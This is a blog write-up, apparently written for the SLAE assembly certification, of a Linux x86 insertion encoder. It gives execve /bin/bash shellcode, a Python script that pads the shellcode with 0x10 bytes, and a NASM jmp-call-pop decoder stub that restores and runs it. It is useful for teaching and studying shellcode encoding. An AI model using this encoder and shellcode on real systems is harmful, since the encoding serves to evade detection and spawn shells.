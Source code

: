 ```yaml
---
layout: post
title: SLAE Exercise 4 - Insertion Encoder
subtitle: Linux x86 Insertion Encoder
tags: [SLAE]
---
```


**Overview**

The fourth task of the SLAE exam required a custom encoding shceme to be written. The requirements for this were as follows:

- PoC using execve-stack as the shellcode to encode and execute

**Requirements**

An insertion encoder was looked at for this exercise. This is done by inserting values into the original shellcode using a script which is then subsequently decoded when the shellcode is run by a decoder stub within the shellcode. The final shellcode will have a format similar to the following:


|Decoder stub   |  encoded shellcode|


For insertion encoder, a value will be inserted in-between the legitimate shellcode an example can be seen here whereby the value 0x10 is the inserted value:

Shellcode: 0x01, 0x02, 0x03, 0x04

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

To obtain the original shellcode, the role of the decoder stub for an insertion encoder is to move the legitimate shellcode values into the inserted values. An example of this can be seen below:

Encoded shellcode: 0x01, 0x10, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x10, 0x03, 0x10, 0x04

Iteration 1: 0x01, 0x02, 0x03, 0x10, 0x04


*Knowing how  this works, what is needed to create this shellcode?*

- Shellcode that is to be encoded, for this the SLAE execve-stack shellcode as per exercise criteria. 
- A program to insert the required values into the original shellcode. 
- A decoder shellcode program to decode the altered shellcode and run it. 


**Shellcode**

The shellcode for the execve-stack program is as follows:

```
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

```

This is due to the requirements set out for this exercise within the exam. 

**Encoder**

For the program to insert the required values into the shellcode, the python script found [here](https://github.com/14Deep/SLAE/tree/master/Exercise%204) can be used to insert the required values into the required shellcode, including putting values at the end of the shellcode to let the decoder stub know when to stop decoding. 

The code is commented so should not need explaining, this can be seen below:

```
#!/usr/bin/python
# Python Insertion Encoder 

# input shellcode, for this exercise the execve-stack shellcode
shellcode = ("\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# the value that is wished to be inserted, can be changed to a required value
insertionvalue = 0x10

# the value that signals the end of the shellcode, make sure this is not the same as 'insertionvalue'
endvalue = '0xaa,0xaa'

# setting encoded to be populated in the upcoming loop
encoded = ""

print 'Encoded shellcode ... \n'

#loop through shellcode inserting the 'insertionvalue' inbetween
for x in bytearray(shellcode) :

	encoded += '0x' 			# add 0x to 'encoded'
	encoded += '%02x,' %x                   # add first shellcode byte in hex format (02x) and a comma
	encoded += '0x%02x,' % insertionvalue   # as above, but the chosen insertion value is used instead


encoded += endvalue				# add 'endvalue' to shellcode so the decoder knows when to stop

print encoded + '\n'				# print 'encoded'

print 'Total length of encoded shellcode is - %d' % len(bytearray(shellcode))

```


**Decoder**

The decoder utilises the jmp, call, pop technique to get the address of the encoded shellcode. From there, it iterates through the shellcode moving all of the legitimate values into the inserted valued. The shellcode is heavily commented and should clearly explain what is occurring at each step. The shellcode can be found [here](https://github.com/14Deep/SLAE/blob/master/Exercise%204/Encoder.py), and is also displayed below:

```
; Filename: InsertionDecoder.nasm
; Author:   Jake Badman
; Website:  14deep.github.io
; Purpose:  An insertion decoder to decode the shellcode for exercise 4 of SLAE 

global _start			

section .text
_start:

;Will be using jmp, call, pop to get the address of the encoded shellcode. 

				
xor eax, eax			     ; clearing registers
xor ebx, ebx
xor ecx, ecx

jmp short shellcode                  ; jumping to call_shellcode, which holds the encoded shellcode

decoder:

	pop esi                      ; pop address of Shellcode into esi
	lea edi, [esi + 1]           ; this is tracking the inserted values, edi will contain the value after esi, which is the inserted value
	inc al                       ; move 1 to eax, used as a counter for inserted values
	mov byte cl, [esi + 1]	     ; moving the first inserted value into cl, this will stay constant and be used to check when the shellcode has finished
decode:
	mov bl, byte [esi + eax]     ; bl will point to the inserted values
	xor bl, cl                   ; check if there is still shellcode to decode
	jnz short EncodedShellcode   ; if the zero flag is not set it means that the xor'd value wasn't the same as the inserted value meaning
				     ; the shellcode has finished. 


	mov bl, byte [esi + eax + 1] ; This moves the value after the inserted value into bl
	mov byte [edi], bl	     ; move bl, the legitimate value into the inserted value before it 
	inc edi			     ; increment edi so that it points to the next inserted value
	inc eax			     ; adding 2 to eax to point to the next inserted value
	inc eax	

	jmp short decode             ; loop until all shellcode has been decoded


shellcode:

	call decoder
	EncodedShellcode: db 0x31,0x10,0xc0,0x10,0x50,0x10,0x68,0x10,0x62,0x10,0x61,0x10,0x73,0x10,0x68,0x10,0x68,0x10,0x62,0x10,0x69,0x10,0x6e,0x10,0x2f,0x10,0x68,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x2f,0x10,0x89,0x10,0xe3,0x10,0x50,0x10,0x89,0x10,0xe2,0x10,0x53,0x10,0x89,0x10,0xe1,0x10,0xb0,0x10,0x0b,0x10,0xcd,0x10,0x80,0x10,0xaa,0xaa

```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092
